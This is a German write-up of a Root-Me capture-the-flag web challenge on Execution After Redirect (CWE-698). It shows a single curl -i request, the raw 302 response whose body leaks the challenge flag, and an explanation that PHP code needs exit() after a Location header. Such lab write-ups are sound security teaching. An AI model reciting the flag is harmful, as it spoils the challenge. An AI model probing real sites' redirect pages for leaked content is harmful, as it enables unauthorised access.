 `http://challenge01.root-me.org/web-serveur/ch32/`

wird ein Login-Formular angezeigt. Nach dem Absenden des Formulars mit beliebigen Zugangsdaten erfolgt eine Weiterleitung.​

### 🛠️ Lösungsschritte

1. **HTTP-Antwort analysieren:** Um die vollständige HTTP-Antwort einschließlich der Header und des Body zu sehen, verwenden wir den folgenden Befehl:

    `curl -i http://challenge01.root-me.org/web-serveur/ch32/`

**Erklärung:**

- `-i`: Zeigt die HTTP-Header der Antwort an.
- Die URL ist die Adresse der Challenge.​

2. **Analyse der Antwort:** Die Antwort enthält eine `302 Found`-Weiterleitung, gefolgt vom HTML-Inhalt der ursprünglichen Seite. In diesem HTML-Inhalt finden wir den Flag.

```html
C:\Users\nico->curl -i http://challenge01.root-me.org/web-serveur/ch32/

HTTP/1.1 302 Found
Server: nginx
Date: Mon, 28 Apr 2025 16:04:28 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Location: ./login.php?redirect

<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<h1>Welcome !</h1>

<p>Yeah ! The redirection is OK, but without exit() after the header('Location: ...'), PHP just continue the execution and send the page content !...</p>
<p><a href="http://cwe.mitre.org/data/definitions/698.html">CWE-698: Execution After Redirect (EAR)</a></p>
<p>The flag is : ExecutionAfterRedirectIsBad
</p>
</body>
</html>
```

### 📝 Hintergrundinformation

In PHP sollte nach einer Weiterleitung mittels `header("Location: ...")` immer ein `exit();` oder `die();` folgen, um sicherzustellen, dass kein weiterer Code ausgeführt wird. In dieser Challenge wurde dies absichtlich weggelassen, wodurch der nachfolgende HTML-Inhalt (inklusive des Flags) weiterhin an den Client gesendet wird, obwohl eine Weiterleitung stattgefunden hat.

---
